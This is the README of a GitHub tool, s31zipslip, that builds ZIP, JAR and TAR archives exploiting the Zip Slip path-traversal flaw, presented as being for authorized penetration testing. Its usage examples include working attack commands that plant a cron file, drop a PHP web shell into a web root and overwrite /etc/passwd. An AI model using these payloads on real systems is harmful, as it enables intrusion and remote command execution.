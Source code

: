 # s31zipslip - Zip Slip Vulnerability Archive Creator

A powerful tool for creating archives with Zip Slip vulnerability for authorized security testing and penetration testing purposes.

## About

s31zipslip is a Python utility designed to create archive files (ZIP, JAR, TAR, etc.) containing specially crafted paths that demonstrate the Zip Slip vulnerability (CVE-2018-1002200). This tool helps security professionals test their applications against directory traversal attacks through archive extraction.

## 🚀 Features

- Support for multiple archive formats: ZIP, JAR, TAR, TAR.GZ, TAR.BZ2
- Customizable target paths and filenames
- Flexible file content specification
- Clean and intuitive command-line interface
- Comprehensive error handling

## 📦 Installation

```bash
# Clone the repository
git clone https://github.com/s31frc3/s31zipslip.git
cd s31zipslip

# Or download the script directly
wget https://raw.githubusercontent.com/s31frc3/s31zipslip/main/s31zipslip.py
```

## 🛠️ Requirements

- Python 3.6+
- No external dependencies (uses standard library modules)

## 📋 Usage

### Basic Syntax
```bash
python3 s31zipslip.py -d TARGET_DIRECTORY -f FILENAME -o OUTPUT_FILE [-c CONTENT]
```

### Options
| Flag | Description | Example |
|------|-------------|---------|
| `-d, --directory` | Target directory path for Zip Slip | `../../../../../../../tmp/` |
| `-f, --filename` | Filename to create inside the archive | `test.txt` |
| `-o, --output` | Output archive filename | `exploit.zip` |
| `-c, --content` | File content (optional) | `"Malicious content"` |

### Examples

**Create a basic test archive:**
```bash
python3 s31zipslip.py -d '../../../../../../../tmp/a/' -f test.txt -o test.zip
```

**Create a TAR.GZ archive targeting cron directory:**
```bash
python3 s31zipslip.py -d '../../../../../../../etc/cron.d/' -f malicious.cron -o payload.tar.gz
```

**Create a JAR archive with PHP shell content:**
```bash
python3 s31zipslip.py -d '../../../../../../../var/www/html/' -f shell.php -o exploit.jar -c '<?php system($_GET["cmd"]); ?>'
```

**Create a TAR archive with custom content:**
```bash
python3 s31zipslip.py -d '../../../../../../../etc/passwd' -f shadow -o backup.tar -c 'root:x:0:0:root:/root:/bin/bash'
```

## 🎯 Supported Archive Formats

- **ZIP** (.zip)
- **JAR** (.jar) 
- **TAR** (.tar)
- **TAR.GZ** (.tar.gz, .tgz)
- **TAR.BZ2** (.tar.bz2)

## 🔍 How It Works

The tool creates archives containing files with malicious paths that include directory traversal sequences (`../`). When vulnerable applications extract these archives without proper path sanitization, the files can be written to unexpected locations outside the intended extraction directory.

## 📝 License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

